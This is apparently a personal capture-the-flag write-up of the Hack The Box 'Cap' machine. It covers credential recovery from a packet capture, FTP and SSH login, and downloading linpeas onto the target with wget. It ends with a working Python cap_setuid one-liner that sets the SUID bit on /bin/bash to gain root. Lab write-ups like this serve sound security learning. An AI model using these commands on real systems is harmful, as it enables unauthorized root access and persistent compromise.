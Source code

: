 # Cap (Linux)

# nmap 
21
22
80

# http (port 80)
I cam across a Security Dashboard with the user **Nathan** logged in. There was nothing on the main page. 
On the left sidebar I was able to access a page called **Security snapshot (5 second PCAP + Analysis)**.
Data Type                Value
Number of Packets       	0
Number of IP Packets    	0
Number of TCP Packets     0
Number of UDP Packet    	0

Download button; downloaded a PCAP file but was empty using **WireShark** assuming because are values are all 0's above.

Decided to run **feroxbuster** on the current **data**directory to see if there was anything hidden within this data. 
`feroxbuster -u http://10.10.10.245/data/ `

Results:
200      GET      371l      993w    17144c http://10.10.10.245/data/1
404      GET        4l       34w      232c http://10.10.10.245/data/download/0
200      GET      371l      993w    17147c http://10.10.10.245/data/0
200      GET      371l      993w    17144c http://10.10.10.245/data/01
200      GET      371l      993w    17147c http://10.10.10.245/data/00
200      GET      371l      993w    17147c http://10.10.10.245/data/000
200      GET      371l      993w    17144c http://10.10.10.245/data/001
200      GET      371l      993w    17147c http://10.10.10.245/data/0000
200      GET      371l      993w    17144c http://10.10.10.245/data/0001

I headed over to **/data/0** and found the same page as before but this time there was actually values and not just zeros. 

In **WireShark** I am able to see that there is a good amount of **Request** being sent in **FTP**. 
I even found a **user** and **password** that was used to login. 

# FTP 
Used the new credentails I found in **WireShark** to login using **FTP**. 
I listed the directories and used `get user.txt`. To download our and `cat` the first flag. 

# SSH
Used the same credentails for **SSH** and it worked. 
`sudo -l` was not allowed for **nathan**. 
Looked for anything that was useful. 
Headed to `cd /` and looked around. In **/var/www/html** I found **app.py** and was able to notice some things from the **Python** code. 

From here I decided to do a quick **./linpeas.sh** run. 
First: In the **linpeas.sh** directroy host a server `python -m http.server 8888`. (On my/your local machine)
Second: In the **users** machine (the target), `wget http://ip:port/linpeas.sh`.

Now I can use **linpeas.sh** in the target's machine. 

### Linpeas 
In **Capabilities** I was able to find: 
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip 

```bash
nathan@cap:/tmp/cap$ ls -al /usr/bin | grep python3
lrwxrwxrwx  1 root   root          23 Jan 27  2021 pdb3.8 -> ../lib/python3.8/pdb.py
lrwxrwxrwx  1 root   root          31 Mar 13  2020 py3versions -> ../share/python3/py3versions.py
lrwxrwxrwx  1 root   root           9 Mar 13  2020 python3 -> python3.8
lrwxrwxrwx  1 root   root          16 Mar 13  2020 python3-config -> python3.8-config
-rwxr-xr-x  1 root   root     5486384 Jan 27  2021 python3.8
lrwxrwxrwx  1 root   root          33 Jan 27  2021 python3.8-config -> x86_64-linux-gnu-python3.8-config
lrwxrwxrwx  1 root   root          33 Mar 13  2020 x86_64-linux-gnu-python3-config -> x86_64-linux-gnu-python3.8-config
-rwxr-xr-x  1 root   root        3240 Jan 27  2021 x86_64-linux-gnu-python3.8-config

```
**TL;DR:**
- All the `python3` stuff points to **Python 3.8**.
- `python3` is just a shortcut to `python3.8`.
- Other files like `*-config` and `pdb3.8` are helpers for development/debugging.
- They're all **owned by root** (user and group), which is standard for system-wide binaries.

Going back to what I found in **/var/www/html/app.py**:
I picked up and thought of the same thing; `python3 -c 'import os; os.setuid(0); os.system("chmod +s /bin/bash")'`

Alright, here’s what **I** just did with that command, especially knowing from earlier that everything Python-related is owned by root:

```bash
python3 -c 'import os; os.setuid(0); os.system("chmod +s /bin/bash")'
```

### Step-by-step in my own words:

1. **`python3 -c`**
   I ran a short Python script directly from the command line.

2. **`import os; os.setuid(0)`**
   I told Python to switch the **user ID to 0**, which is **root**.
   That means: if Python was running with root privileges, now my script is also running as root.

3. **`os.system("chmod +s /bin/bash")`**
   Then I used `os.system()` to run a shell command as root:
   `chmod +s /bin/bash` sets the **SUID bit** on `/bin/bash`.

   That means: anytime someone runs `/bin/bash`, it now runs **with root privileges**, even if they’re not root.

---

### Why did I do this?

Because `/usr/bin/python3` is owned by root (as I saw earlier), **if** I somehow got it to run with elevated privileges (e.g., via a SUID binary or some privilege escalation vector), I could abuse it to do dangerous things — like turning `/bin/bash` into a root shell.

So this command is part of a **privilege escalation technique**. After this, I could just run:
```bash
/bin/bash -p
whoami
cd /root
cat root.txt
```

PWNED!

# **Summary (in my words):**

I started by scanning the box and found that ports 21, 22, and 80 were open. When I visited the web page on port 80, I saw a Security Dashboard already logged in as the user Nathan. There wasn’t much at first, but I found a page called “Security Snapshot” that let me download 5-second PCAP files. The first one had all zeros, so I figured there had to be more behind the scenes.

I ran feroxbuster on the `/data/` directory and found several hidden pages like `/data/0`, `/data/01`, and so on. When I downloaded one of the captures that had actual data and opened it in Wireshark, I found FTP credentials in plaintext.

Using those creds, I logged into FTP and pulled the user flag. Then I tried SSH with the same credentials—it worked, and I was in as Nathan. I tried `sudo -l` but couldn’t run anything as root, so I started hunting for escalation paths.

I checked around and found an `app.py` script under `/var/www/html/`, which hinted Python was being used. I uploaded and ran linpeas.sh to speed up the enumeration process. It flagged `/usr/bin/python3.8` as having the capability `cap_setuid`, which basically meant it could change its user ID and potentially run as root.

That was my way in.

I ran a Python one-liner to set my UID to 0 and then gave `/bin/bash` the SUID bit. After that, I launched `/bin/bash -p`, which let me keep those root privileges. That gave me full access, including the root flag.

## **Key takeaways for myself:**

- Packet captures can leak credentials—especially FTP.
- Tools like linpeas are essential for finding privilege escalation vectors quickly.
- If a binary like Python has the `cap_setuid` capability, I can abuse it to become root.
- Setting the SUID bit on a shell can give me persistent root access.
- `/bin/bash -p` lets me keep elevated privileges if the binary has SUID.

## **Things I’ll remember:**

- Check for file capabilities, not just SUID bits.
- Analyze PCAPs deeply with Wireshark, especially when they're linked to real-time network captures.
- App source code under `/var/www/html` often reveals useful context or logic.
- Don’t give up if `sudo` is restricted—escalation paths can still exist through misconfigured capabilities.

